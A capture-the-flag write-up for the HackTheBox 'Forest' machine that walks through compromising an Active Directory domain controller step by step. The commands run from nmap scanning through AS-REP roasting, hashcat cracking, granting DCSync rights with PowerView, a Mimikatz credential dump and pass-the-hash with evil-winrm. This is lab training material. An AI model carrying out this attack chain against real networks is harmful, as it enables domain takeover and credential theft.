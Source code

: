 # Forest HTB Writeup
Forest is an easy machine on the HacktheBox platform, primarily specializing in Active Directory exploitation. This machine was on TJNull's OSCP list and helped me pass the OSCP exam.

### Enumeration
We start off with a nmap scan, using default scripts (-sC), and the enumerating versions flags (-sV).
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.45 seconds
                                                                                                                                                                                             
shellph1sh@kali:~/Htb/forest$ sudo nmap -p 53,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sC -sV -oA nmap/forest 10.10.10.161
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
Nmap scan report for 10.10.10.161
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-12 14:36:32Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-12-12T06:36:42-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m39s, deviation: 4h37m09s, median: 6m37s
| smb2-time: 
|   date: 2023-12-12T14:36:39
|_  start_date: 2023-12-11T01:44:33
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.32 seconds
```

<br />

By this nmap scan, we can see that that this machine is an Active Directory Domain Controller. We can attempt to enumerate Domain user accounts if SMB anonymous bindings are enabled. So we run `enum4linux`.

<br />

![Untitled-1](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/10d0f494-f7f7-4a9b-9a27-074e5fea542a)

<br />

We aquire quite a few users from `enum4linux`, which we can use to leverage an attack.

<br />

### Exploitation
We can build a wordlist of Domain usernames to test if accounts are ASREP-Roastable. An ASREPRoasting attack leverages an accounts lack of Kerberos pre-authentication required, giving us the users hash.

We can build the text file users.txt like so:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
zeus
```

and utilize it in an ASREPRoasting attack with `impacket-GetNPUsers`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e427e5ec-d449-4685-b33a-39834459c515)

<br />

We get a hash for the user svc-alfresco! The naming convention `svc` indicates a service account, meaning potentially more privilege being given to this account.

We can then attempt to crack the hash using hashcat, with the command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/89e74388-986f-48b6-9e95-cca47192b952)

<br />

Boom! We cracked the service account hash!
Great, now due to the WinRM service running on port 5985 that we enumerated earlier with nmap, we could potentially gain command execution if the service user is in the local group “Remote Management Users”.

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/78268aa2-ff39-47b7-ae5a-9321ccefaea0)

<br />

We get command execution!

<br />

### Privilege Escalation

As a Domain user, or a service account, I like to execute BloodHound on the target the enumerate potential domain vulnerabilities like Kerberoasting, or permission misconfiguration.


We find that the Domain Group `Account Operators` as `Generic All` access on `zeus`, and `svc-alfresco` is a part of the `Privileged Accounts` Domain Group, and the `Privileged Accounts` Domain Group is a member of the `Account Operators` Group. Because of this, our current user has full control over the user `zeus`. We can change their password, set them apart from the `Remote Management Users` to get RCE, then give them DCSync rights. 

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/401c1c39-a67a-4028-bbe2-cb3c0fbefdad)

<br />

```
net localgroup "Remote Management Users" htb.local\zeus /add
```
<br />

Utilize PowerView to give Zeus DCSync rights

<br />

```
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\zeus', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity zeus -Rights DCSync
```

<br />

Then we can use Evil-WinRM once more to gain access to the `zeus` account

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/740c03d3-a1a9-4833-9b29-96df83f1c638)

<br />

We can then use Mimikatz to preform the DCSync procedure as `zeus`.

```
Mimikatz.exe "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"
```
<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ac9d1a04-d612-4b2b-ac6a-8a69303abce2)

<br />

And we've gathered the NTLM hash of the Administrator, we can use this to Pass the Hash (PtH) to the Domain Administrator with evil-winrm.

```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```


